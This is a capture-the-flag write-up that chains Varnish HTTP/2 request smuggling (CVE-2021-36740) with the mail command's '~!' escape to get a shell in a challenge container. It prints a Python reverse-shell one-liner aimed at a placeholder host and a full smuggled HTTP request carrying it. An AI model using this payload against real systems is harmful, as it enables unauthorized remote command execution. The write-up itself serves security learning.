 # Smuggling mail write up

# Recon
## Infomation Gathering
The challenge provided a gzip compressed tar file `smuggling-mail.tar.gz`.
We can find following files in the tarball.
```
smuggling-mail
├── challenge
│   ├── admin
│   │   ├── css
│   │   │   └── styles.css
│   │   ├── index.html
│   │   └── js
│   │       └── scripts.js
│   ├── flag.txt
│   ├── package.json
│   ├── public
│   │   ├── css
│   │   │   └── styles.css
│   │   ├── index.html
│   │   └── js
│   │       └── scripts.js
│   └── server.js
├── config
│   ├── entrypoint.sh
│   ├── hitch.conf
│   ├── supervisord.conf
│   └── varnish.vcl
├── Dockerfile
└── run.sh
```
Threre are several important info you can gather from these files.
- The service is using Varnish cache server with version 6.4.0 from Dockerfile file
- Varnish handles both h2, http/1.1 protocols based on the hitch.conf
- Varnish is checking the access to the endpoints which contains `/admin` string based on varnish.vcl
    - it is also check the http Authorization header matches `^Basic TOKEN$` pattern and TOKEN is randomized.
- There is only **four** real endpoints which are `/`, `/admin`, `/waitlist`, `/admin/alert` based on the server.js.
    - `/` and `/admin` only returns static files
    - `/waitlist` only return a string respond `Sorry, the waitlist is currently closed.`
    - only `/admin/alert` endpoint is interesting because executing a command called `mail`. The `mail` command takes anything client `POST` through the `msg` parameter

## Next Steps
First we check if there is exsits vulnerbilities for the varnish since we know the version is 6.4.0. There is one: **CVE-2021-36740**.
After reading https://labs.detectify.com/2021/08/26/how-to-set-up-docker-for-varnish-http-2-request-smuggling/, I found out I can bypass the varnish access checking using this vulnerbility.

The next thing is checking if there is anything wrong with the `mail` command so I can force it to read flag.txt and return it to me.

At the first glance of the google results, there is no noticeble vulnerbilities for this command.
However, I found out that the command `mail` can actually execute system command using `~!` which is similar to vim's syntax.
So this is all I need to get a reverse shell from the actual docker container.

# exploit(RCE)
Using the http request as the following:
    - the reverse shell one liner is url encoded. the original one linder is `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("THIS.IS.YOUR.IP",THEPORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
    - There is a trailing `%0A`(line break) at the end of the payload otherwise the payload maynot work.
```
POST /waitlist HTTP/2
Host: 127.0.0.1:8080
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="104"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Content-Length: 1

a

POST /admin/alert HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 346

msg=~%21%20python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22THIS.IS.YOUR.IP%22%2CTHEPORT%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%3B%27%%0A
```
use Netcat to listen any port you want in your server which has a public **IP**
```
# cat flag.txt <--- this should give u the flag
flag{t35t_f14g_g035_h3r3} <---- this is not the real flag. Sorry forget to save it.
```
